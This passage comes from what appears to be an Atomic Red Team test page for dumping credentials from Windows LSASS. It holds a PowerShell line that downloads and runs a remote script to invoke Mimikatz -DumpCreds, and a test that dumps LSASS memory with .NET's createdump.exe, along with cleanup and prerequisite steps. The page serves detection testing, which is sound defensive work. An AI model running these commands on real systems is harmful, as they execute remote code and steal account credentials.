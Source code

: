 #### Attack Commands: Run with `powershell`! Elevation Required (e.g. root or admin)

```powershell
IEX (New-Object Net.WebClient).DownloadString('#{remote_script}'); Invoke-Mimikatz -DumpCreds
```

<br/>
<br/>

## Atomic Test #11 - Dump LSASS with createdump.exe from .Net v5

Use createdump executable from .NET to create an LSASS dump.

[Reference](https://twitter.com/bopin2020/status/1366400799199272960?s=20)

**Supported Platforms:** Windows

**auto_generated_guid:** 9d0072c8-7cca-45c4-bd14-f852cfa35cf0

#### Attack Commands: Run with `powershell`! Elevation Required (e.g. root or admin)

```powershell
$exePath =  resolve-path "$env:ProgramFiles\dotnet\shared\Microsoft.NETCore.App\5*\createdump.exe"
& "$exePath" -u -f $env:Temp\dotnet-lsass.dmp (Get-Process lsass).id
```

#### Cleanup Commands:

```powershell
Remove-Item $env:Temp\dotnet-lsass.dmp -ErrorAction Ignore
```

#### Dependencies: Run with `powershell`!

##### Description: .Net v5 must be installed

##### Check Prereq Commands:

```powershell
$exePath =  resolve-path "$env:ProgramFiles\dotnet\shared\Microsoft.NETCore.App\5*\createdump.exe"
if ($exePath -and (Test-Path $exePath)) {exit 0} else {exit 1}
```

##### Get Prereq Commands:

```powershell
winget install Microsoft.DotNet.DesktopRuntime.5 --accept-source-agreements --accept-package-agreements --silent
```

<br/>
<br/>

## Atomic Test #12 - Dump LSASS.exe using imported Microsoft DLLs
